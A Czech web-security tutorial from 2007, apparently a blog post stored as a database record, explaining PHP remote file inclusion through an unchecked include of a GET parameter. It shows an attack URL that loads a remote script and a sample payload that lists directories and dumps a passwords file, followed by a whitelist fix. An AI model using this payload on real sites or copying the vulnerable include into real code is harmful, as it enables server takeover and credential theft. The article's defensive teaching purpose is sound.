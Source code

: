 2007-07-26-hackerem-sam-sobe-1-php-injection

(15, 'hackerem-sam-sobe-1-php-injection', '2007-07-26 15:24:46', 'Hackerem sám sobě (1) - PHP Injection',

Tento článek startuje menší seriál o bezpečnosti webových aplikací. Řeknu vám,
jak hackovat své vlastní stránky za účelem důkladného otestování bezpečnosti
vašeho webu. Tím vás ale nenabádám, abyste tyto techniky zkoušeli na stránkách,
které nepatří vám - žádné skrývání pomocí sítě "TOR":http://tor.eff.org/ a
nabourávání webu FBI prosím nedělejte.

Všechny techniky se pokusím prakticky ukázat - to znamená, že uvidíte ukázky kódu
a odkazy přímo na PHP skripty, kde lze tuto chybu pozorovat. V žádném případě
nebudu zacházet až příliš do hloubky - další rozšiřování kódu je na vaší fantazii.

PHP Injection
=============

Začnu tím nejjednodušším, kde dělají chyby většinou jen začátečníci. Spočívá
v injection = injekci, tedy vložení cizího skriptu do stránky. Bezpečnostní
riziko mohou způsobit funkce, které provádějí kód z externích souborů - nejčastěji
`include` nebo `require`.

[POKRACOVANI]

Nejvíce je s touto technikou spojován skript index.php, který obsahuje hlavičku
a patičku, přičemž samotný obsah je tvořen externím souborem vkládaným přes
`include`:

/---code html
<html>
  <head>
    <meta http-equiv="content-type" content="text/html; charset=utf-8">
    <title>Ukázka PHP Injection</title>
  </head>
  <body>
    <!-- hlavicka a menu -->
    <?php include $_GET[ "stranka" ] ?>     
    <!-- paticka -->
  </body>
</html>
\\---

Tímto tvůrce stránek udělal jednoduchý skript díky kterému nemusí psát do
každého html souboru menu a další věci opakující se na každé stránce. Adresa
stránky s kontaktem bude mít následující tvar:

/---code txt
index.php?stranka=kontakt.php
\\---

Je to sice krásně jednoduché, ale takový skript má obrovskou bezpečnostní díru !
Pokud nemáme na serveru zakázáno `allow_url_include`, můžeme směle `kontakt.php`
nahradit vzdáleným skriptem:

/---code txt
index.php?stranka=http://domena.cz/zakernyskript.php
\\---

Tento vložený cizí skript pak bude mít stejné práva a možnosti jako váš vlastní
skript ! Může třeba prohlížet obsah adresáře nebo zobrazit obsah jakéhokoliv
vašeho skriptu:

/---code html
<p><strong>Klidně si vypíšu obsah adresáře:</strong></p>
<p>
  <?php
  $adresar = dir( "./" );
  while ( $polozka = $adresar->read( ) ) {
        echo $polozka."<br />\\n";
  }
  $adresar->close( );
  ?>
</p>
<p><strong>A pak obsah souboru s hesly:</strong></p>
<pre>
  <?php
  echo htmlspecialchars( file_get_contents( "passwords.php" ) );
  ?>
</pre>
\\---

**Ukázka:** "php-injection.php?stranka=http://www.jopress.cz/test/php-injection-hack.php":http://ukazky.chapadlo.cz/php-injection.php?stranka=http://www.jopress.cz/test/php-injection-hack.php

A je vymalováno - tato bezpečnostní díra přinesla útočníkovi celý web na stříbrném
podnose.

Řešení
======

Nejlepší metodou pro tento typ skriptu je nadefinování všech stránek pomocí
podmínek. Nebudeme tím spoléhat na vstup, což udělá náš skript bezpečným.

/---code html
<html>
  <head>
    <meta http-equiv="content-type" content="text/html; charset=utf-8">
    <title>Bezpečný skript</title>
  </head>
  <body>
    <!-- hlavicka a menu -->
    <?php
    switch ( $_GET[ "stranka" ] ) {
          case "novinky":
        include "novinky.php";
        break;
      case "kontakt":
        include "kontakt.php";
        break;
      // a tak dale...
      default:
        include "404.php"; // stranka nenalezena	
        break;
    }
    ?>
    <!-- paticka -->
  </body>
</html>
\\---

Adresa pro zobrazení kontaktu bude nyní `index.php?stranka=kontakt`.

Doufám, že jste si uvědomili nedozírné následky prezentované chyby a dáte si
na PHP Injection pozor. Pokud používáte externí soubory, ujistěte se, že
opravdu nejdou podstřčit něčím jiným. Dávejte si pozor i na přípony, existují
situace, kdy i obrázek může být maskovaný skript :-)'),
